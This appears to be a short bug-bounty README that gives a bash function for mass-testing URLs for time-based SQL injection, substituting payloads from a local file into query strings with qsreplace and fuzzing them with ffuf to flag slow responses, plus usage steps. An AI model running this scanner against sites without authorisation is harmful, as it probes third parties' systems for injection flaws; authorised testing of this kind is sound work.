 # time-based-sqli-payloads
1.
```
# Time Based Sql Injection
sqliTime()
{
for i in $(cat ~/.path/To/payloads) ; do
  cat $1 | qsreplace "$i" > sqli
  ffuf -u FUZZ -w sqli -s -ft ">15000" | tee -a vulnSqli.txt
  rm sqli
done
}
```
2.
```
> source .bashrc
```
3.
```
> sqliTime urls
> sqliTime urls.txt
```
